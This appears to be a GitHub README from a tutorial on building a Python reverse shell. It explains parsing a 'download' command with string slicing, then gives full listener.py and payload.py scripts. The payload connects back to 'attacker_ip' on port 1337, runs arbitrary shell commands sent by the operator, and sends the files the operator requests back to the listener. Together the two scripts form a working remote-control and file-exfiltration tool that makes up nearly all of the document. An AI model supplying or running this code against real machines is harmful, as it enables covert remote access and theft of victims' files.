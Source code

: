 <h2 align="center">Download Functionality</h2>
<p align="center"><img width="350" height="350" src="./src/banner_cnph.gif"></p>

Pass download command with the name of file to download

command : `download message.txt`

If the command is starting from zero index

`cmd[0:`

Slice into two parts, first part starts with `D`  in `download`</br>
which will be at the zero index up to the exclusion position

`cmd[0:8] -> download`

You can start with initial index since the zero is optional

`cmd[:8] -> download`

The [8:9] index would be the whitespace inbetween the two slice</br>
Second part starts with [9] index till last index

`cmd[9:] -> message.txt`

- - - - - - - - - - - - - - - - - - - - - -
> [listener.py](listener.py)
```python
import socket

listener = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

listener.bind(("attacker_ip", 1337))

listener.listen()

print("Server has started")

connection, address = listener.accept()

def recv_data():
    original_size = connection.recv(2048).decode("utf-8")
    original_size = int(original_size)
    
    data = connection.recv(2048)
    while len(data) != original_size:
        data = data + connection.recv(2048)
    return data

while True:
	cmd = input("enter a command: ")
	
	if cmd == "quit":
		connection.send(b"quit")
		connection.close()
		break

	elif cmd[:2] == "cd":
		connection.send(bytes(cmd, "utf-8"))
		recv = recv_data()
		print(recv.decode("utf-8"))
		continue
	
	# If it's a download command
	elif cmd[:8] == "download":
		# Give download command to the Windows machine by send information
		connection.send(bytes(cmd, "utf-8"))
		# Get data in the listener and create file to store the data
		file_output = recv_data()
		# Open and save data in write binary mode, set name as write_data
		with open(f'{cmd[9:]}', 'wb') as write_data:
			# Use write function for the data information sent by client / windows machine
			write_data.write(file_output)
			write_data.close() # Close the file that have been written
		continue 
		
	connection.send(bytes(cmd, "utf-8"))
	
	output = recv_data()
	print(output.decode("utf-8"))

print("Server has stopped")
```
---
> [payload.py](payload.py)
```python
import socket
import subprocess

import os

payload = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

payload.connect(("attacker_ip", 1337))

print("Connected")

def send_data(ouput_data):
    size_of_data = len(ouput_data)
    size_of_data = str(size_of_data)
    payload.send(bytes(size_of_data, "utf-8"))
    payload.send(ouput_data)
 
while True:
	cmd = payload.recv(2048)
	cmd = cmd.decode("utf-8")
	
	if cmd == "quit":
		payload.close()
		break
	
	elif cmd[:2] == "cd":
		try:
			os.chdir(cmd[3:])
		except FileNotFoundError:
			send_data(b"File not found")
		else:
			send_data(b"Changed directory")
		continue

	# Need to catch if the command is download
	elif cmd[:8] == "download": # Command sent to the client / windows machine
		# Get the file to download which is message.txt
		with open(f'{cmd[9:]}', 'rb') as data: # Open in read binary mode and set name as data
			data_read = data.read() # Read the data using function and store in a variable
			data.close() # Close after performing the operation
		# Send read data back to the server machine
		send_data(data_read)
		continue

	try:
		output = subprocess.check_output(cmd, shell = True)
	except subprocess.CalledProcessError:
		send_data(b"Wrong command")
	else:
		send_data(output)

print("Disconnected") # display disconnection message
```

**Note** : The `message.txt` that was downloaded can be found in the same directory as the [listener.py](listener.py) is located.